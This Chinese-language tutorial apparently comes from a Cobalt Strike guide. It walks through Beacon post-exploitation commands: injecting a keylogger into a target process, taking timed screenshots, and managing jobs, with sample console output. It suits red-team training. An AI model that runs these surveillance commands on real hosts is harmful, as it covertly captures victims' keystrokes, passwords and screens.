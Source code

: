 # 0x00 Beacon 键盘记录
Beacon提供的键盘记录个人感觉还是比较强大

```
beacon> help keylogger
Use: keylogger [pid] <x86|x64>
     keylogger

Inject a keystroke logger into the specified process. Use jobkill to terminate
this task early.

Use keylogger with no arguments to spawn a temporary process and inject the 
keystroke logger into it.
```
可以看到简介 可以使用2种方式 一种是进程注入 一种是直接使用 到这里我顺便介绍一些命令吧 ps 显示目标进程
![Cobalt Strike ](./img/9.1.png)
然后我们选择一个进程来注入 

```
beacon> keylogger 2460
[*] Tasked beacon to log keystrokes in 2460 (x86)
[+] host called home, sent: 65610 bytes
[+] received keystrokes
```
我们在 View>Keystrokes 可以看到 效果
![Cobalt Strike ](./img/9.2.png)

不得不说Cobalt Strike还是比较人性化，他给我们提供了很方便的操作，能多选目标 然后右键 获取进程注入键盘记录，屏幕截屏等。

![Cobalt Strike ](./img/9.3.png)

这里需要注意一下你的注入User是你想记录的用户进程


# 0x01 Screenshost

```
beacon> screenshot 1344 x86 90
[*] Tasked beacon to take screenshots in 1344/x86 for next 90 seconds
[+] host called home, sent: 162832 bytes
[+] host called home, sent: 58 bytes
[*] received screenshot (116332 bytes)
[*] received screenshot (112961 bytes)

```
同样 也是可以使用批量的
![Cobalt Strike ](./img/9.4.png)
操作跟键盘记录一样，但是选择后他会选择一个记录多长时间，自己按需求选择

我们在 View>Screenshost 可以看到 效果
![Cobalt Strike ](./img/9.5.png)

在我们不需要这些进程的时候 可以 在beacon里面运行 jobs 查看任务进程在用jobkill  JID来结束进程

```
beacon> keylogger 1344 x86
[*] Tasked beacon to log keystrokes in 1344 (x86)
[+] host called home, sent: 65610 bytes
beacon> jobs
[*] Tasked beacon to list jobs
[+] host called home, sent: 8 bytes
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 5    1344  keystroke logger

beacon> jobkill 5
[*] Tasked beacon to kill job 5
[+] host called home, sent: 10 bytes
```

# 0x02 文末
貌似Cobalt Strike 截图的时候目标系统会有明显的卡顿，还有个远控功能还是建议大家别用不是很好（用时半小时）

### 本文如有错误，请及时提醒，以免误导他人
